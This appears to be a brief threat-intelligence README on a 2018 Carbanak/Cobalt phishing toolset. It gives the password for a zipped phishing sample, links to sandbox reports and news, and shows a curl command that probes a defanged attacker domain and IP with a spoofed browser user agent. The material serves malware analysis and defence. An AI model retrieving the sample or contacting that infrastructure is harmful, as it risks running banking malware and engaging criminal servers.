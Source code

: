 Carbanak/Cobalt CyberGang toolset, may 2018:

Fishing attachment "67972318.doc.zip" password is "virus"

Sample: https://www.hybrid-analysis.com/sample/af9ed7de1d9d9d38ee12ea2d3c62ab01a79c6f4b241c02110bac8a53ea9798b5/5b0bdfff7ca3e145a22ff941

DOC: https://app.any.run/tasks/2a83b3f6-8eb2-4a55-b077-9d20eb2c63d4

JS: https://app.any.run/tasks/3705a1c8-a57f-42fe-9ff1-23e045f2d16a

$ curl -v -A "Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 7.0; InfoPath.3; .NET CLR 3.1.40767; Trident/6.0; en-IN)" http://secure.n-document[.]biz/humans.txt
Trying 185.180.196.53...

Related news:
1 https://www.europol.europa.eu/newsroom/news/mastermind-behind-eur-1-billion-cyber-bank-robbery-arrested-in-spain

2 https://blog.trendmicro.com/trendlabs-security-intelligence/backdoor-carrying-emails-set-sights-on-russian-speaking-businesses/

3 https://www.group-ib.com/blog/renaissance

4 https://www.ptsecurity.com/ww-en/about/news/292575/
